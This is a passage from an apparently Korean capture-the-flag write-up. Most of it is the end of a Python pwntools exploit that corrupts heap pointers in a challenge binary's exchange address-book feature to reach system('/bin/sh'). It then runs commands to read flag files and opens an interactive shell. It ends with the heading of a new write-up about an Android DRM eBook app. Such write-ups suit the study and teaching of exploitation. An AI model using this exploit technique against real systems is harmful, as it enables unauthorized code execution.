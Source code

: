 ```py
    ExchangeClass.modify_addressbook("-1", b"MYADDRESS", b"A"*0x10+p64(system).strip(b'\x00'), b"memo")

    ExchangeClass.add_addressbook("XRP", b"C"*0x80+p64(user+0x648).strip(b'\x00')+b"A", b"123123", str(i+2))
    ExchangeClass.add_addressbook("XRP", b"C"*0x80+p64(user+0x648).strip(b'\x00'), b"123123", str(i+2))
    ExchangeClass.modify_addressbook("-1", b"MYADDRESS", p64(binsh).strip(b'\x00'), b"memo")

    ExchangeClass.add_addressbook("XRP", b"C"*0x80+p64(user+0x640).strip(b'\x00')+b"A", b"123123", str(i+2))
    ExchangeClass.add_addressbook("XRP", b"C"*0x80+p64(user+0x640).strip(b'\x00'), b"123123", str(i+2))
    ExchangeClass.modify_addressbook("-1", b"MYADDRESS", p64(gadget2).strip(b'\x00'), b"memo")

    ExchangeClass.add_addressbook("XRP", b"C"*0x80+p64(user+0x100).strip(b'\x00')+b"A", b"123123", str(i+2))
    ExchangeClass.add_addressbook("XRP", b"C"*0x80+p64(user+0x100).strip(b'\x00'), b"123123", str(i+2))
    ExchangeClass.modify_addressbook("-1", b"MYADDRESS", p64(gadget).strip(b'\x00'), b"memo")

    ExchangeClass.add_addressbook("XRP", b"C"*0x80+p64(user+0x10).strip(b'\x00')+b"A", b"123123", str(i+2))
    ExchangeClass.add_addressbook("XRP", b"C"*0x80+p64(user+0x10).strip(b'\x00'), b"123123", str(i+2))
    ExchangeClass.modify_addressbook("-1", b"MYADDRESS", p64(system_heap).strip(b'\x00'), b"memo")
    UserClass.myinfo()

    ExchangeClass.add_addressbook("XRP", b"C"*0x80+p64(user+0x10).strip(b'\x00')+b"A", b"123123", str(i+2))
    ExchangeClass.add_addressbook("XRP", b"C"*0x80+p64(user+0x10).strip(b'\x00'), b"123123", str(i+2))
    ExchangeClass.modify_addressbook("-1", b"MYADDRESS", p64(user).strip(b'\x00'), b"memo")
    UserClass.myinfo()

    ExchangeClass.sell("XRP", str(1), "100")
    
    s.sendline('pwd')
    s.sendline('id')
    s.sendline('ls /')
    s.sendline('ls')
    s.sendline('cat /flag_1')
    s.sendline('cat /flag_2')
    s.interactive()
    exit()
```

# Dream DRM
## OverView
`DRM(Digital Rights Management)` 기술을 접목시킨 일종의 eBook 안드로이드 앱이다.

